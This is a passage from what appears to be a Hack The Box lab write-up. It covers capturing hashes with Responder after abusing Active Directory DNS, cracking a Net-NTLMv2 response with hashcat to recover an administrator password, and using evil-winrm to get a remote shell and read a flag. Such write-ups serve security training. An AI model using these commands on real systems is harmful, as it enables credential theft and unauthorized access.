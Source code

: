 Now according to the "Secure only" Dynamic updates default setting you are the rightful owner of that DNS object and you may want to fire Responder on Kali to harvest some hashes:

[![adidns-responder.png](/assets/images/htb/endgames/hades/adidns-responder.png)](/assets/images/htb/endgames/hades/adidns-responder.png)
{:.center-image}

### Refs

* [Beyond LLMNR/NBNS Spoofing – Exploiting Active Directory-Integrated DNS](https://blog.netspi.com/exploiting-adidns/)
* [ADIDNS Revisited - WPAD, GQBL, and More](https://blog.netspi.com/adidns-revisited/)
* [Abusing Unsafe Defaults in Active Directory Domain Services: A Real-World Case Study / GoSecure](https://www.gosecure.net/blog/2019/02/20/abusing-unsafe-defaults-in-active-directory/)
* [Getting in the Zone: dumping Active Directory DNS using adidnsdump - dirkjanm.io](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)

## Cracking Net-NTLMv2 response

I will <kbd>Alt</kbd>-<kbd>Tab</kbd> to my host machine and crack the captured Net-NTLMv2 response with hashcat:

```
Cmd > ./hashcat64.exe -m 5600 -a 0 -r rules/d3ad0ne.rule hashes/htb seclists/Passwords/darkc0de.txt
ADMINISTRATOR:::1122334455667788:d5b1e9b04d6da4023702434589fcb71a:0101000000000000c0653150de09d201280c6d481d556fe8000000000200080053004d004200330001001e00570049004e002d00
500052004800340039003200520051004100460056000400140053004d00420033002e006c006f00630061006c0003003400570049004e002d00500052004800340039003200520051004100460056002e0053004d
00420033002e006c006f00630061006c000500140053004d00420033002e006c006f00630061006c0007000800c0653150de09d201060004000200000008003000300000000000000000000000003000002b00c2c0
b2a8cbd1bb3165bcb3cafe21d6535246b8acd398d499094336db396a0a001000000000000000000000000000000000000900240063006900660073002f006400620032002e006800740062002e006c006f00630061
006c00000000000000000000000000:Myp@ssw0rd
```

`WED:Administrator:Myp@ssw0rd` :smiling_imp:

And now I'm ready to Evil-WinRM the box and get the sixth flag:

```
root@kali:$ proxychains4 -q evil-winrm.rb -u 'administrator' -p 'Myp@ssw0rd' -i 192.168.3.202 -s `pwd` -e `pwd`
*Evil-WinRM* PS > gc ..\desktop\flag.txt
HADES{Why_llmnr_*******************}
```
